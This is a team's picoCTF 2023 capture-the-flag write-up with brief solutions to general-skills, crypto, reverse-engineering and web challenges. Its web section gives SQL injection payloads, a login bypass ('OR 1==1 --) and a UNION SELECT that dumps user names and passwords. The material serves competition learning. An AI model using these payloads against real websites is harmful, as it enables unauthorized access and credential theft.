 # picoCTF-2023-Writeup

## Overview

We participated in the picoCTF 2023 competition as an  competing in the Global category, organised by Carnegie Mellon University, which ran from Mar 15 2023 to Mar 29 2023.

This is a write up of the challenges solved during the event.

## Team

### NCKU-LeafLeafLeaf (National Cheng Kung University)

![image](https://user-images.githubusercontent.com/70793703/229209720-b9e226d7-0ec7-43f7-9dec-6a812bcf3c6f.png)

# General Skills

## chrono 

Use ssh to connect server.

in path / has a directory which name is challenge.

Use **cd** command to challenge and **ls** to check what is inside the directory.

![](https://i.imgur.com/utvV0Wh.png)

Use **cat** command to open the JSON file, and we can get the flag.

![](https://i.imgur.com/ILuWoIM.png)

## money-ware

We can search **1Mz7153HMuxXTuR2R1t78mGSdzaAtNbBWX** in Browser.

![](https://i.imgur.com/3zV87qY.png)

So the flag is **picoCTF{Petya}**

## Permissions

Use ssh to connect server.

in path / has a directory which name is challenge.

Use **cd** command to challenge and **ls** to check what is inside the directory.

![](https://i.imgur.com/rQiyUTO.png)

Use **vim** to open the JSON file, and we can get the flag.

![](https://i.imgur.com/2lEiIEl.png)

# Crypto
## ReadMyCert
```
-----BEGIN CERTIFICATE REQUEST-----
MIICpzCCAY8CAQAwPDEmMCQGA1UEAwwdcGljb0NURntyZWFkX215Y2VydF83ODM0
YzVmMn0xEjAQBgNVBCkMCWN0ZlBsYXllcjCCASIwDQYJKoZIhvcNAQEBBQADggEP
ADCCAQoCggEBALNCq27+10dci/gQ/bBxzqtEOgogaab6zG529aIuKsI9w1mzUgNl
Gd70Vjc6SNTGRAEWbQasM8zCN9iX6wgmmotE+m4/1/7+QkxuFxvfdJOCygNd0rtI
sJdtzC7ZeG3XJF3ny+FOGrP1xni7xWIpIjwfXtEcprO65WReVIFlaHEGSx/qRMBW
gI00BRcGWEuk1XgRMXof63Z71l0tyAiNcVuivSTOf6OHH1FNbdO3wKXy094QCIt8
yxn5OAKi3EAiASaT6hYKjcs6elCV3YTi4uxJMw3mCZQ6G8yhRhdv92H1A5xQwtQT
WTpPF7CA0eJyrmctFIETpBvWTNWfP5rorBUCAwEAAaAmMCQGCSqGSIb3DQEJDjEX
MBUwEwYDVR0lBAwwCgYIKwYBBQUHAwIwDQYJKoZIhvcNAQELBQADggEBAGhIGd79
u4lUC3hC0ipPPdVfAZph9Wjbjnu9dofixMjheH+v4+NU8xXOlVw0sVB6+xyB6iOA
K+uQ6w/F0n4tlcF2AkHX4yY81gN4dpQdPD9KPQwLd/ay2Ya2a5p/+/SVyZto2YCn
QDG48eJy0tyZaAl8XxGRpADsyXXGGBaxCF2GJ4y9tAHe8qeqRochSKzQCkWACwZW
0p/mxQERsT8TOdkVjyTRSkcp3tP6MdrreotXUjNWFe71jZtDoGMcs1CYOCbUmTl3
x8/g2tumZI7FHeCybZHdsjm7Xawwf66LgaEodH4KT8mWtZzUcrKDhwn54EmnevMh
UFreOOreZZh9ZE8=
-----END CERTIFICATE REQUEST-----
```
CSR decoder :D
https://www.sslshopper.com/csr-decoder.html

# Reverse

## timer
apk file decompile
http://www.javadecompilers.com/processing


# Web
## more SQLi
```
username: admin
password: qwertyuiop
SQL query: SELECT id FROM users WHERE password = 'qwertyuiop' AND username = 'admin'
```
login payload : 
password = `'OR 1==1 --`
登入以後出現的畫面(the page after login):`welcome.php`
<img src="https://i.imgur.com/9QIzhse.png" width=300></img>
input payload : `' UNION SELECT id,name,password FROM users --`
and gets
<img src="https://i.imgur.com/t0JGx0p.png" width=300></img>
id : 1
name: admin
password: moreRandOMN3ss


